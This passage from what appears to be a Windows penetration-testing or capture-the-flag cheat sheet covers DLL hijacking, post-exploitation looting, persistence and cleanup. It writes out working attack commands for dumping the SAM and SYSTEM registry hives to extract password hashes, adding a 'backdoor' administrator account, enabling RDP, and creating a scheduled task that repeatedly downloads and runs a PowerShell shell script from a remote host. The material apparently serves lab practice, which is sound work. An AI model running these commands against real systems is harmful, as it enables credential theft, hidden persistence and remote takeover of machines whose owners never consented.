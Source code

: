 _Why:_ Writable tasks can be hijacked.

### 5.5 DLL Hijacking

Check for services loading missing DLLs.
_Why:_ Place malicious DLL to escalate.

* * *

## 6\. Loot & Post-Exploitation

### 6.1 Flags

`type C:\Users\*\Desktop\user.txt type C:\Users\Administrator\Desktop\root.txt`

### 6.2 SAM & SYSTEM Hives

`reg save HKLM\SAM C:\sam reg save HKLM\SYSTEM C:\system`

Extract hashes with `secretsdump.py`.

### 6.3 Credentials

-   Saved creds in files
-   Browser saved creds (`AppData\Roaming\Microsoft\Credentials`)
* * *

## 7\. Persistence 

-   **Add admin user**

`net user backdoor P@ssw0rd! /add net localgroup administrators backdoor /add`

-   **RDP Enable**

`reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

-   **Scheduled Task Reverse Shell**

`schtasks /create /sc minute /mo 1 /tn "Updater" /tr "powershell.exe -c 'IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.14.7/shell.ps1\")'"`

* * *

## 8\. Cleanup

-   Remove accounts, tasks, shells, backdoors.
-   Reset services to default.
* * *

# Quick Flow

1.  **Nmap** → Find ports/services.
2.  **SMB/RPC/Web** → Enum creds/files.
3.  **Foothold** → Webshell, RCE, weak creds.
4.  **Shell** → Stabilize & enum.
5.  **Privesc** → Kernel, tokens, misconfigs.
6.  **Loot** → Flags, hashes, creds.
7.  **Persist** (optional).
8.  **Cleanup**
